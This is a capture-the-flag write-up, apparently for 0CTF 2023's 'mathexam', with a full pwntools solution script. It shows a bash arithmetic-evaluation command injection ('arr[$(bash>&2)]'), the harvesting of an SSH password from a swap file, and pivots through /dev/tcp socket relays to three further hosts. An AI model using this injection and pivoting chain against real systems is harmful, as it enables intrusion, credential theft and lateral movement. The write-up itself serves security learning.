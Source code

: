 # mathexam

## Overview

mathexam was a 4 part problem focusing on the bash shell. Initially, we
are given a bash shell script implementing a math guessing game. We are
allowed to connect over an HTTP proxy to an instance of the problem
running thie script.

## Part 1

The bash script requires the user to entre an "exam integrity
statement", asks the the user 100 addition questions, checking the
answers, prints a score, then exits.

The bug lies in the following code:
```bash
    read line

    if [[ "$line" -eq "$ans" ]]
    then
        ...
    fi
```

While this appears safe at first glance, this actually allows command
injection because bash performs arithmetic evaluation on the arguments
to `-eq`, as described at
https://research.nccgroup.com/2020/05/12/shell-arithmetic-expansion-and-evaluation-abuse/.

Providing `arr[$(bash>&2)]` to that prompt gives us a shell that allows
us to read the first flag.

## Part 2

Looking around the filesystem, we see a file named `.connect.sh.swp`
that contains a reference to the command
`sshpass -p x5kdkwjr8exi2bf70y8g80bggd2nuepf ssh ctf@second`.

From this, we conclude that we need to proxy an SSH connection to
`second` using those credentials via bash.

We did this by opening a socket in bash using:
`exec 5<> /dev/tcp/second/22` then redirecting stdin and stdout to/from
the socket using `cat <&5 & cat >&5`.

Then we used pwntool's `pwnlib.tubes.ssh` to take over our remote connection
and speak SSH to it. This gives us a shell that allows us to read the
second flag.

## Part 3

Part 3 was the same as part 2, except this time, we need to connect to
`ctf@third`. The SSH server on `second` does not allow port forwarding
so we bash to proxy the connection in the same way.

## Part 4

Part 4 was the same as parts 2 and 3, except that `cat` is no longer
available in this shell. We initially attempted to replicate `cat` using
a bash read loop. However, this appeared to corrupt inputs/outputs
somehow. After debugging this for a bit, we realized that bash's read
builtin is unable to return null bytes. Searching for solutions to this
online, we found
https://unix.stackexchange.com/questions/626641/how-to-read-binary-data-including-zero-bytes-using-bash-builtin-read
and adapted the solution from there (see our solution script below).

Replacing `cat` with a null-preserving read loop allows us to SSH to
`ctf@fourth`, which gives us the final flag.

## Solution

```python
#!/usr/bin/env python3
from pwn import *

l = listen()
l.spawn_process('socat - PROXY:instance.0ctf2023.ctf.0ops.sjtu.cn:7et9q47wqqhqqc6b:1,proxyport=18081'.split())

r = remote('localhost', l.lport)

r.recvuntil(b'here:\n')
r.sendline(b'I promise to play fairly and not to cheat. In case of violation, I voluntarily accept punishment')
r.recvuntil(b'?\n')
r.sendline(b'arr[$(bash>&2)]')
r.sendline(b'cat .connect.sh.swp; echo EOF')
swp = r.recvuntil(b'EOF\n', drop=True)

password = swp.split(b' -p ')[1].split()[0].decode()
print(f'{password = }')

r.sendline(b'exec 5<> /dev/tcp/second/22; cat <&5 & cat >&5')

s = ssh(user='ctf', password=password, host='second', proxy_sock=r.sock, raw=True)
r2 = s.shell(tty=False)

r2.sendline(b'exec 5<> /dev/tcp/third/22; cat <&5 & cat >&5')

s2 = ssh(user='ctf', password=password, host='third', proxy_sock=r2.sock, raw=True)
r3 = s2.shell(tty=False)

r3.sendline(b'''
exec 5<> /dev/tcp/fourth/22;
while IFS= LC_ALL=C read -rd '' -n1 c && [[ -z "$c" ]] && printf '\\0' || echo -n "$c"; do true; done <&5 &
while IFS= LC_ALL=C read -rd '' -n1 c && [[ -z "$c" ]] && printf '\\0' || echo -n "$c"; do true; done >&5
'''.strip())

s3 = ssh(user='ctf', password=password, host='fourth', proxy_sock=r3.sock, raw=True)
s3.interactive()
```

